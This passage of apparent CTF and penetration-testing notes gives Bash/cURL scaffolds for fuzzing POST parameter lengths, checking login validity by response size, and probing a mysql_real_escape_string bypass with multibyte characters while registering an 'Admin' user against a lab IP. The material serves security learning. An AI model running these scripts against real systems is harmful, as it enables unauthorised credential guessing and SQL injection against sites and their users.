 ```Bash
        #echo "${5}${fuzz}"
        echo "${i}" | { tr -d '\n' ; curl "${1}" -o ${4} -d "${5}${fuzz}" 2>/dev/null | wc ${4}; }
done

```

Here is an example of what it looks like running:
```
./fuzz_post.sh http://10.10.10.10/ 1000 1000000 output.txt "user=test&password=test"
args: <URL> <Start Length #> <End Length #> <Output Filepath>
Length Lines Words Bytes Filename
---------------------------------
1000 9  31 274 output.txt
...
...
100000 11  37 343 output.txt
100001 11  37 343 output.txt
```
## Check to see if a user login is correct in a Bash script

The following script can be used to verify that a username and login is correct.
It is meant to be a basic scaffold for you to build a fit for purpose fuzzer using cURL and Bash.
It will check the response length characters to see if it is a valid response.  You will need to adjust the expected character count for your application. 
```bash
#!/bin/bash
result=($(curl --data "email=$2&password=$3" "$1" 2>/dev/null | wc -c))
echo $result
if [ "$result" == '0' ]
then
        echo 'zero'
else
        echo 'NOT zero'
fi
```
Here is the script in action:
```bash
$ ./check_user.sh http://10.10.10.10/login.php test@test.com testpassword
0
NOT zero
```

## Automate user creation and test for mysql_real_escape_string bypass
The following is a basic scaffold for you to build a fit for purpose fuzzer using cURL and Bash.
Here is a bash script I created for a CTF to validate a theory I had about its use of the PHP mysql_real_escape_string method:
```BASH
#!/bin/bash
# Test for mysql_real_escape_string
email=test@test.com
password=1234567890123456789012345678901234567890123456789012345678901234567890123456789
fuzz="뽜’’AA"
name="‘¿’’AA"
ip="10.10.10.10"
echo "Creating User: ${email}"
curl -i -b 'cookies.txt' -c 'cookies.txt' -d "name=${name}&email=${email}&password=${password}&type=Admin" "http://${ip}/index.php" 2>/dev/null
echo " "
echo "============================================"
echo "Login as User"
echo "============================================"
```